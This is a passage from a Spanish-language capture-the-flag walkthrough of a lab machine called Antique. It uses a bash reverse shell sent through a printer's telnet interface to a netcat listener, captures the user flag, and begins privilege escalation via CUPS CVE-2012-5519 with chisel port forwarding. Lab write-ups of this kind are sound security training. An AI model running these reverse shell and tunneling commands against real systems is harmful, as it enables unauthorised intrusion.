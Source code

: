 Por lo tanto, probarmeos de obtener una Reverse Shell. Para ello, nos pondremos en escucha por un puerto.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Desde la interfaz de `telnet` de la impresora, ejecutaremos el siguiente comando.

```bash
> exec bash -c 'bash -i >& /dev/tcp/10.10.16.5/443 0>&1'
```

Verificamos que logramos obtener acceso al sistema y visualizar la flag de **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.107] 55082
bash: cannot set terminal process group (1022): Inappropriate ioctl for device
bash: no job control in this shell
lp@antique:~$ cat /home/lp/user.txt
cat /home/lp/user.txt
bfd3482a0***********************
```

## Privilege Escalation

### CUPS Administration Exploitation (CVE-2012-5519)

Revisamos si en el equipo dispone de algún puerto interno abierto. Verificamos que hay un puerto 161 abierto el cual investigaremos.

```bash
lp@antique:~$ netstat -ano | grep LISTEN
netstat -ano | grep LISTEN
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp6       0      0 ::1:631                 :::*                    LISTEN      off (0.00/0/0)
```

Realizaremos **Port Forwarding** a través de `chisel` para obtener acceso a ese puerto desde nuestro equipo local.

Desde nuestra Kali, nos crearemos un servidor con `chisel`.

```bash
❯ ./chisel server --reverse -p 1234
2025/01/27 01:30:49 server: Reverse tunnelling enabled
2025/01/27 01:30:49 server: Fingerprint 2rgce5eKdOw74ibZ3pEyZ2xkaiDbBwAUWRjYfuZs7kI=
2025/01/27 01:30:49 server: Listening on http://0.0.0.0:1234
```

Por otro lado, deberemos disponer del binario de `chisel` para Linux y compartiremos este binario a través de un servidor web.

```bash
❯ ls -l chisel
.rwxr-xr-x kali kali 8.9 MB Mon Jan 27 01:30:46 2025  chisel
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
